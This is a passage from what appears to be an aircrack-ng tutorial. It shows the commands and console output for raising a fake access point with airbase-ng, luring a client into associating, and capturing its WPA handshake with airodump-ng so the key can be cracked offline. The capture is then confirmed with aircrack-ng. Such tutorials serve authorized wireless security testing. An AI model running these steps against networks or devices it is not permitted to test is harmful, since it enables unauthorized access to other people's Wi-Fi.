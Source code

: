  Where:

*  -c 9 specifies the channel
*  -e teddy filters a single SSID
*  -z 2 specifies TKIP
*  -W 1 set WEP flag because some clients get confused without it.
*  rausb0 specifies the wireless interface to use

 The -z type will have to be changed depending on the cipher you believe the client will be using. TKIP is typical for WPA.

 The system responds:

```
 10:17:24  Created tap interface at0
 10:22:13  Client 00:0F:B5:AB:CB:9D associated (WPA1;TKIP) to ESSID: "teddy"
```

 The last line only appears when the client associates.

 On another console window run:

```
 airodump-ng -c 9 -d 00:C0:C6:94:F4:87 -w cfrag wlan0
```

*  -c 9 specifies the channel
*  -d 00:C0:C6:94:F4:87 filters the data captured to fake AP MAC. It is MAC of card running the fake AP. This is optional.
*  -w specifies the file name of the captured data
*  wlan0 specifies the wireless interface to capture data on

 When the client connects, notice the “WPA handshake: 00:C0:C6:94:F4:87” in the top right-hand corner of the screen below:

```
 CH  9 ][ Elapsed: 5 mins ][ 2008-03-21 10:26 ][ WPA handshake: 00:C0:C6:94:F4:87                             
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
 
 00:C0:C6:94:F4:87  100  70     1602       14    0   9  54  WPA  TKIP   PSK  teddy                           

 BSSID              STATION            PWR   Rate  Lost  Packets  Probes

 00:C0:C6:94:F4:87  00:0F:B5:AB:CB:9D   86   2- 1     0       75    
```

 Alternatively, use the “-F &lt;file name prefix&gt; option with airbase-ng to directly write a capture file instead of using airodump-ng.

 Running “aircrack-ng cfrag-01.cap” proves it captured a valid WPA handshake:

```
 Opening cfrag-01.cap
 Read 114392 packets.
 
 #  BSSID              ESSID                     Encryption
 
 1  00:C0:C6:94:F4:87  teddy                     WPA (1 handshake)
```
